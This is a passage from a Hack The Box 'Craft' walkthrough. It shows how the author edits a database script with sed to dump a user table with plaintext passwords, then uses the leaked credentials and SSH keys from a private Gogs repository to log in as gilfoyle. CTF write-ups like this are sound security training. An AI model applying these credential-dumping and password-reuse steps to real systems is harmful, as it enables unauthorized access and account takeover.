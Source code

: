 It's using pymsql to interact with the database, going to the documentation of it, we see that what we need is to use the `method fetchall()`
{% include figure image_path="/assets/images/htb/craft/1-rce.png" %}
So, I change the script to do a `show tables` using `fetchall()` instead of `fetchone()`:

```console
/opt/app # sed -i 's/result \= cursor.fetchone()/sql \= \"show tables\"/' dbtest.py
/opt/app # sed -i 's/result \= cursor.fetchone()/result \= cursor.fetchall()/' dbtest.py
```

and post that, we ran the script, and we get 2 tables one that looks interesting named `user`, we modify again the sql query but to select all the records from that table:

```console
/opt/app # python dbtest.py
[{'Tables_in_craft': 'brew'}, {'Tables_in_craft': 'user'}]
/opt/app # sed -i 's/sql \= \"show tables\"/sql \= \"SELECT * FROM user\"/' dbtest.py
/opt/app # python dbtest.py
[{'id': 1, 'username': 'dinesh', 'password': '4aUh0A8PbVJxgd'}, {'id': 4, 'username': 'ebachman', 'password': 'llJ77D8QFkLPQB'}, {'id': 5, 'username': 'gilfoyle', 'password': 'ZEU3N8WNM2rh4T'}]
/opt/app # 
```

So, we got the users `dinesh, ebachman and gilfoyle` and it's respective passwords, with that we go to `https://gogs.craft.htb` again and login as `gilfoyle` and we found that he has a private repo to deploy the infra called `craft-infra`
{% include figure image_path="/assets/images/htb/craft/1-gil.png" %}

{% include figure image_path="/assets/images/htb/craft/2-gil.png" %}
We notice there is a `.ssh` folder, we look into it and we get a pair of public/private ssh keys:
{% include figure image_path="/assets/images/htb/craft/3-gil.png" %}
We try to login via ssh as `gilfoyle` re-using the password we got earlier and we found a succes (actually the firstr's try it failed for me, and spent some hours trying to break the id_rsa with john without succes, so give a new try with with trying the founded passwords):

```console
root@kali:~/Documents/HTB/boxes/medium/linux/craft# ssh gilfoyle@10.10.10.110 -i id_rsa


  .   *   ..  . *  *
*  * @()Ooc()*   o  .
    (Q@*0CG*O()  ___
   |\_________/|/ _ \
   |  |  |  |  | / | |
   |  |  |  |  | | | |
   |  |  |  |  | | | |
   |  |  |  |  | | | |
   |  |  |  |  | | | |
   |  |  |  |  | \_| |
   |  |  |  |  |\___/
   |\_|__|__|_/|
    \_________/



Enter passphrase for key 'id_rsa': 
Linux craft.htb 4.9.0-8-amd64 #1 SMP Debian 4.9.130-2 (2018-10-27) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Fri Jan  3 23:45:10 2020 from 10.10.14.16
gilfoyle@craft:~$ id
uid=1001(gilfoyle) gid=1001(gilfoyle) groups=1001(gilfoyle)
```